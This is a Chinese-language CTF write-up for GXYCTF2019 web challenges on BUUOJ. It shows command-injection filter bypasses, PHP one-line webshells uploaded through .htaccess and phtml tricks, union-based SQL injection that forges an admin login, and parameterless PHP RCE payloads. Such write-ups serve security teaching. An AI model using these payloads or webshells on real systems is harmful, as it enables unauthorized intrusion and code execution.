---
title: "GXYCTF"
date: 2024-11-12T20:17:28+08:00
summary: "GXYCTF"
url: "/posts/GXYCTF(已做完)/"
categories:
  - "赛题wp"
tags:
  - "GXYCTF"
draft: false
---

# 0x01前言

坚持每天都做做赛题，加油!

# 0x02赛题

## [GXYCTF2019]Ping Ping Ping



根据题目可以知道这个可能是rce命令执行题目，先ping一下本地看看

`/?ip=127.0.0.1`



ping出来了，那就试一下管道符拼接命令

`/?ip=127.0.0.1||ls`

介绍一下||管道符

| \|\| | A\|\|B | A命令语句执行失败，然后才执行B命令语句，否则执行A命令语句 |
| ---- | ------ | --------------------------------------------------------- |

没有发现回显，一开始以为这不是linux环境我我还换了dir查看目录，发现dir也不行，我就换了一下管道符，用分号拼接ls

`/?ip=127.0.0.1;ls`



发现flag.php文件，尝试cat一下

`/?ip=127.0.0.1;cat flag.php`



出现回显，原来是过滤了空格

那就用绕过空格过滤的方法

### 绕过空格过滤

- < <> 重定向符 
- %20(space) 
- %09(tab)
- $IFS$1 
- **${IFS}（最好用这个）** 
- $IFS
- %0a  换行符 
- {cat,flag.txt} 在大括号中逗号可起分隔作用

用${IFS}试试看

`/?ip=127.0.0.1;cat${IFS}flag.php`




发现{}符号也被过滤了

用$IFS$1试试

/?ip=127.0.0.1;cat$IFS$1flag.php



好吧flag也被过滤了，那就用通配符进行绕过

### 通配符绕过

配符是由shell处理的, 它只会出现在 命令的“参数”里。当shell在“参数”中遇到了通配符时，shell会将其当作路径或文件名去在磁盘上搜寻可能的匹配：若符合要求的匹配存在，则进行代换(路径扩展)；否则就将该通配符作为一个普通字符传递给“命令”，然后再由命令进行处理。总之，通配符 实际上就是一种shell实现的路径扩展功能。在 通配符被处理后, shell会先完成该命令的重组，然后再继续处理重组后的命令，直至执行该命令。

| *       | 匹配任何字符串／文本，包括空字符串；*代表任意字符（0个或多个） |
| ------- | ------------------------------------------------------------ |
| ?       | 匹配任何一个字符（不在括号内时）?代表任意1个字符             |
| [abcd ] | 匹配指定字符范围内的任意单个字符                             |
| [a-z]   | 表示范围a到z，表示范围的意思                                 |

对于linux cat和ca''t ca\t ca""t效果是相同的 这样同样可以绕过字符的限制




真可恶，*和?都被过滤了

换成别的绕过方法试一下

### **其他绕过flag方法**

1.反斜杠\绕过flag

2.''单引号绕过flag

发现还是不能绕过，我们倒回去看一下index里面看看有没有源代码吧



这里对flag进行了任意字符的匹配，所以无论中间用什么字符进行隔开绕过都会当成flag进行处理，这时候我们可以试一下赋值拼接绕过

/?ip=127.0.0.1;b=ag;c=fl;cat$IFS$1$c$b.php

发现并没有过滤的回显，看一下源码里面有没有flag，终于找到了

注意:有些绕过了flag但在源码中并没有找到flag，我也不知道是什么原因

## [GXYCTF2019]BabyUpload

一看就是文件上传漏洞



先传一句话木马看看

```php
<? eval($_POST['code']);?>
```



发现有文件后缀的验证，**由此我们得知，文件后缀不可以有ph，那么php3,php5,phtml等后缀自然无法使用了。**先测试一下看看是前端验证还是后端

先把文件后缀改成jpg格式，然后上传并抓包修改后缀为php，再放包



发现还是对后缀名进行了警告，说明应该不是前端的js验证后缀名了，考虑是不是文件头检测

那就做一个图片马

先选一张小一点的图片，然后将一句话木马和图片合成为一张图片马

cmd命令

copy /b 原始图片.jpg + 恶意代码文件.php 合成图片.jpg



不放心的话我们可以把2.jpg拖到010里面看一下是否有一句话木马



这里上传图片马记得修改后缀名，图片截的有问题

也有警告,试一下00截断能不能绕过php



好吧，骗不过他

试一下**.htaccess**文件上传

先传一个**.htaccess**文件看看能不能成功

新建一个txt文件并写入

AddType application/x-httpd-php .jpg

意思是可以将上传的jpg文件当作php文件去解析

然后将后缀名改成.htaccess

上传看看能不能通过

发现还是显示上传类型太露骨,应该是也对htaccess文件进行了过滤，我们试着把content_type头改一下

修改如下



发现上传成功，我们试着传一个jpg格式的一句话木马



结果发现还是传不了，我直接换了一个木马，换成phtml的木马

```phtml
<script language="php">eval($_REQUEST[cmd])</script>
```



发现这个上传成功了，那我们访问一下木马

发现没有呈现图片，说明我们的phtml文件被解析执行了，那就直接用蚁剑连接找flag就行了

## [GXYCTF2019]BabySQli

打开题目是登录界面，那就先进行一系列的测试

用1和1'测试后发信有回显报错，判断存在注入点且为单引号闭合



接下来是判断注入类型了，看看是整数型还是字符型

但是当我用or 1=1判断的时候出现页面



猜测应该是or被黑名单限制了

后续用双写绕过，order by判断字段数也是一样，基本上确定有黑名单验证了

直接试一下union有没有被过滤

1' union select 1,2#



1' union select 1,2,3#



没报错，说明字段数应该是3个

虽然union select没被过滤，但database被过滤了，真让人头大

抓包做看看有没有线索



居然还真有，在response包中看到一段注释掉的编码，我们解码一下

我一开始用的base64解码发现是乱码，就试了一下其他base解码，通过测试发现是套加密（二次加密）,需要先base32解码再base64解码

解码后的结果是:

```
select * from user where username = '$name'
```

可以看到注入点是在name参数，那就对name参数进行sql注入

先假设用户名是admin进行测试:

admin'#

发现出现wrong pass

证明是有admin这个用户的，但密码并不正确

不过这一关用到了sql的一个特性

### sql特性:**在联合查询并不存在的数据时，联合查询就会构造一个虚拟的数据**

首先第一步判断回显点，利用穷举法，看页面回显判断

’union select1,2, ‘admin’#

页面回显 wrong user! 但我们知道 用户名是正确的，所以只能是位置错了。

由此判断出 admin的位置

'union select 1,'admin',3#

通过题目的源代码可以知道，这里的密码是进行了md5加密过的，在最后面的代码中中提到只有密码进行md5编码才会得到flag

```php+HTML
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5-->
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" /> 
<title>Do you know who am I?</title>
<?php
require "config.php";
require "flag.php";

// 去除转义
if (get_magic_quotes_gpc()) {
	function stripslashes_deep($value)
	{
		$value = is_array($value) ?
		array_map('stripslashes_deep', $value) :
		stripslashes($value);
		return $value;
	}

	$_POST = array_map('stripslashes_deep', $_POST);
	$_GET = array_map('stripslashes_deep', $_GET);
	$_COOKIE = array_map('stripslashes_deep', $_COOKIE);
	$_REQUEST = array_map('stripslashes_deep', $_REQUEST);
}

mysqli_query($con,'SET NAMES UTF8');
$name = $_POST['name'];
$password = $_POST['pw'];
$t_pw = md5($password);
$sql = "select * from user where username = '".$name."'";
// echo $sql;
$result = mysqli_query($con, $sql);


if(preg_match("/\(|\)|\=|or/", $name)){
	die("do not hack me!");
}
else{
	if (!$result) {
		printf("Error: %s\n", mysqli_error($con));
		exit();
	}
	else{
		// echo '<pre>';
		$arr = mysqli_fetch_row($result);
		// print_r($arr);
		if($arr[1] == "admin"){
			if(md5($password) == $arr[2]){
				echo $flag;
			}
			else{
				die("wrong pass!");
			}
		}
		else{
			die("wrong user!");
		}
	}
}

?>

```

那我们就构造虚拟的数据

name=1' union select 1,'admin','c4ca4238a0b923820dcc509a6f75849b'#&pw=1

这里c4ca4238a0b923820dcc509a6f75849b是1的md5加密值

这里利用的知识点不多，但是如果不看源代码的话估计到死都做不出来这道题

## [GXYCTF2019]禁止套娃



是一点线索都不给啊

用御剑扫了一下目录，但也没什么收获

参考了各位师傅的wp后发现是.git泄露

用githack把泄露的代码摘下来

```
python githack.py url/.git/
```

摘下来的代码会放在githack目录下



进入b4d0310f-0918-425b-8f37-c1069fc45ecf.node5.buuoj.cn_81文件可以看到有index.php，说明源代码被我们摘下来了

index.php

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>

```

preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])--这里过滤了大部分的伪协议，比如 `data://`、`filter://`、`php://` 和 `phar://`

if (';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp']))--这里的匹配替换一个字符+符号+加上对括号的递归调用，例如以下



判断匹配替换后的 结果是不是为;，说明这里我们只能让传入的exp是仅包含函数调用的形式，替换结果才会为;，比如func();，而不应该有其他字符

if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) --这里进一步检查输入中的字符是否包含关键字

### 解题思路:函数嵌套实现无参数rce

明确了是需要实现无参数rce的话，那我们得通过第三层验证考虑哪些函数可以用了，

preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])

#### payload1:读取文件

```php
exp=highlight_file(next(array_reverse(scandir(pos(localeconv())))));
```

highlight_file() 函数对文件进行语法高亮显示，本函数是show_source() 的别名
next() 输出数组中的当前元素和下一个元素的值。
array_reverse() 函数以相反的元素顺序返回数组。(主要是能返回值)
scandir() 函数返回指定目录中的文件和目录的数组。
pos() 输出数组中的当前元素的值。
localeconv() 函数返回一个包含本地数字及货币格式信息的数组，该数组的第一个元素就是"."。



#### payload2:数组操作

```
?exp=var_dump(scandir(pos(localeconv())));
array(5) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(4) ".git" [3]=> string(8) "flag.php" [4]=> string(9) "index.php" }

?exp=var_dump(array_reverse(scandir(pos(localeconv()))));
array(5) { [0]=> string(9) "index.php" [1]=> string(8) "flag.php" [2]=> string(4) ".git" [3]=> string(2) ".." [4]=> string(1) "." }

?exp=show_source(next(array_reverse(scandir(pos(localeconv())))));
```

`pos() / current()` 默认返回数组第一个元素
`end()` ： 将内部指针指向数组中的最后一个元素，并输出
`next()` ：将内部指针指向数组中的下一个元素，并输出
`prev()` ：将内部指针指向数组中的上一个元素，并输出
`reset()` ： 将内部指针指向数组中的第一个元素，并输出
`each()` ： 返回当前元素的键名和键值，并将内部指针向前移动

`pos()` 输出数组中的当前元素的值。

`localeconv()` 函数返回一个包含本地数字及货币格式信息的数组，该数组的第一个元素就是”.”。

`array_reverse()`函数将数组逆向返回

#### payload3：session_id

通过获取session_id设置为flag.php来获取flag

```php
?exp=highlight_file(session_id(session_start()));
```

```
Request:

GET /?exp=highlight_file(session_id(session_start())); HTTP/1.1
Host: 5e48725e-b21b-41a7-96d1-398a11a05f3d.node5.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
cookie:PHPSESSID=flag.php
Connection: close
```


## [GXYCTF2019]StrongestMind



算出来填进去看看回显

发现每次的计算都不一样，那bp抓包提交应该是不行的了，只能写个脚本

### 加减法计算脚本

```python
import re
import requests
from time import sleep


def count():
    s = requests.session()
    url = 'http://c39b6aaa-4d51-4b1d-b777-32741c72ccc8.node3.buuoj.cn/'
    match = re.compile(r"[0-9]+ [+|-] [0-9]+")
    r = s.get(url)
    for i in range(1001):
        sleep(0.1)
        str = match.findall(r.text)[0]
        # print(eval(str))
        data = {"answer" : eval(str)}
        r = s.post(url, data=data)
        r.encoding = "utf-8"
        print('{} : {}'.format(i,eval(str)))
        # print(r.text)
    print(r.text)


if __name__ == '__main__':
    count()

```

如果觉得慢的话可以写多线程的或者设置延时时间，这样会快得多，但也容易出现429



## [GXYCTF2019]BabysqliV3.0

